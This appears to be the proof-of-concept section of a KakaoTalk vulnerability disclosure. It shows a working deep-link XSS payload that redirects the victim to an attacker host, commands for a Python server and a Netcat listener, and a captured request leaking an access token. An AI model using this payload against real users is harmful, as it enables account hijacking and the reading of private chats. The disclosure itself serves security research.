 ## PoC

The goal of the PoC is to register [KakaoTalk for Windows/MacOS](https://www.kakaocorp.com/page/service/service/KakaoTalk?lang=en) or the open-source client [KiwiTalk](https://github.com/KiwiTalk/KiwiTalk) to a victim's account to read her/his **non-end-to-end** encrypted chat messages.

The steps for an attacker are as follows:

### Attacker prepares the malicious deep link

First, she/he stores the payload to a file, ...

```javascript
<script>
location.href = decodeURIComponent("kakaotalk%3A%2F%2Fbuy%2Fauth%2F0%2FcleanFrontRedirect%3FreturnUrl%3Dhttps%3A%2F%2Fm.shoppinghow.kakao.com%2Fm%2Fproduct%2FQ24620753380%2Fq%3A%22%3E%3Cimg%20src%3Dx%20onerror%3D%22document.location%3Datob%28%27aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUvZm9vLmh0bWw%3D%27%29%3B%22%3E");
</script>
```

... starts the HTTP server and ...

```bash
$ python3 -m http.server 8888
```

... opens a Netcat listener in another terminal window: `$ nc -l 5555`. Easy ;-)

### Victim clicks the link and leaks an access token to the attacker

Next, the attacker sends a URL (e.g., `http://192.168.178.20:8888/foo.html`) and waits until the victim clicks it. The access token should be then leaked in the Netcat listener:

```bash
GET /foo.html HTTP/1.1
Host: 192.168.178.20:5555
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; M2004J19C Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/119.0.6045.66 Mobile Safari/537.36;KAKAOTALK 2610420;KAKAOTALK 10.4.2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e
os_name: Android
kakao-buy-version: 1.0
os_version: 10.4.2
X-Requested-With: com.kakao.talk
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
